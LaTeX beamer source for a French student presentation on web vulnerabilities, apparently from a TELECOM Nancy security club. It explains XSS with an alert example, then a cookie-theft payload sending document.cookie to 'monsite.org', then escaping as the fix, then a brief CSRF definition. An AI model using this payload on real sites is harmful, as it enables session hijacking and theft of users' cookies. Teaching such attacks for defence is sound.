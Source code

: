 \documentclass{beamer}
\title[Failles Web]{H4ck 1n TN}
\subtitle{Failles Web}
\author[H4ck1nTN]{Valentin STERN}
\institute[HiT]{Ceten -- TELECOM Nancy}
\date{\today}
\begin{document}
\begin{frame}
\titlepage
\end{frame}

\begin{frame}{D'où viennent les failles?}
	Du serveur en général\\
	Surtout en PHP car c'est le langage le plus utilisé\\
	Pas développé de manière sécurisé au départ
\end{frame}

\begin{frame}{Les failles vues dans cette présentation}
	Faille XSS\\
	CSRF\\
	Transversal directory\\
	CRLF\\
\end{frame}

\begin{frame}{Faille XSS}
	Utilisée en général pour voler des cookies\\
	Pour rediriger vers des pubs\\
	Embêter les utilisateurs
\end{frame}

\begin{frame}{Son fonctionnement}
	Nécessite un formulaire qui réaffiche les données entrées\\
	Permet d'éxécuter du javascript sur le client d'autres personnes\\
	Par exemple : <script>alert('Hello')</script>
\end{frame}

\begin{frame}{Comment voler les cookies ?}
	Contenus dans document.cookie\\
	Nécessite un serveur, avec un fichier enregistrant ce qu'on lui envoie\\
	<script>window.location.replace('http://monsite.org/index.php?c=' + document.cookie.toString())</script>
\end{frame}

\begin{frame}{Comment la sécuriser ?}
	Echapper les caractères\\
	Remplace donc par exemple < par \&lt\;\\
	Affiche donc au final <script>alert('Hello')</script> et n'éxécute pas le code
\end{frame}

\begin{frame}{CSRF}
	Acronyme de Cross-Site Request Forgery\\
	Permet d'utiliser les droits d'un autre utilisateur pour faire ce que l'on veut
\end{frame}
\end{document}
